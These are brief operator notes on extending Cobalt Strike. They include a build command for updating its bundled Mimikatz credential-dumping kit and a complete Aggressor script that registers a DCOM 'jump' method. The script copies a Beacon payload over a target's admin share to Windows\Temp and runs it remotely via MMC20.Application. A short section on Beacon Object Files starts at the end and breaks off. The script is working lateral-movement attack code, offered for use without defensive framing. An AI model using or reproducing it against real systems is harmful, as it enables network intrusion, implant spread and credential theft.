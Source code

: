 # Extending Cobalt Strike Notes

## Mimikatz kit

CS is loaded with older mimikatz so we need to update with the bundles they have
in windows wsl
```
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz
./build.sh /mnt/c/Tools/cobaltstrike/mimikatz
```

Load mimikatz.cna via the Cobalt Strike > Script Manager menu and clicking the Load button

## Jump and Remote-Exec

in this example we'll integrat Invoke-DCOM.ps1 into jump
create new text file in visual studio and save as dcom.cna, and put this in
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

Make sure to load the script via the Script Manger (Cobalt Strike > Script Manager).

## Beacon Object Files

Beacon Object Files (BOFs) are a post-ex capability that allows for code execution inside the Beacon host process




